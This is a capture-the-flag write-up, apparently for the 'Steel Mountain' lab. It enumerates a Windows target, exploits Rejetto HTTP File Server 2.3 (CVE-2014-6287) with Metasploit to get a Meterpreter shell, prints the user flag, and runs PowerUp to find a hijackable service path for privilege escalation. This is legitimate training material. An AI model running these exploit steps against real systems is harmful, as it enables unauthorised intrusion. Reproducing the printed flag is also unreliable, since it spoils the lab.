 # Steel Mountain
- **Powerup** is a powershell script for evaluating a Windows machine and determining any abnormalities. It is used for enumeration.
### Task 1
- Who is the employee of the month?
  ```
  curl <target_ip> --output text.html
  cat text.html

  Output: ===========================
  <img src="/img/BillHarper.png" style="width:200px;height:200px;"/>
  ```
  > Bill Harper
### Task 2
- Scan the machine with nmap. What is the other port running a web server on?
  ```
  nmap --script=vuln -sV -A <target_ip>

  Output: ======================
  8080/tcp  open  http         HttpFileServer httpd 2.3
  ```
  > 8080
- Take a look at the other web server. What file server is running?

  Look up `HttpFileServer httpd 2.3` on Google and we get an [Exploit-DB link](https://www.exploit-db.com/exploits/39161). It tells us the file server and CVE number.
  > Rejetto HTTP File Server
- What is the CVE number to exploit this file server?
  > 2014-6287
- Use Metasploit to get an initial shell. What is the user flag?

  We will try to get a **meterpreter** shell. Looking at the hint, we know the flag will be in `C:\Users\bill\Desktop`, so we `cd` to it and `ls`. We see a `user.txt` file which contains the flag.
  ```
  search rejetto
  use 0
  set rhosts <target_ip>
  set rport 8080
  run

  Meterpreter:  cat c:/users/bill/Desktop/user.txt
  ```
  > b04763b6fcf51fcd7c13abc7db4fd365
### Task 3
First, `wget` [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) into your attack machine. Then we upload it into **meterpreter**. 
```
meterpreter > upload <PowerUp.ps1>
meterpreter > load powershell
meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks

Output: =============================================
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
```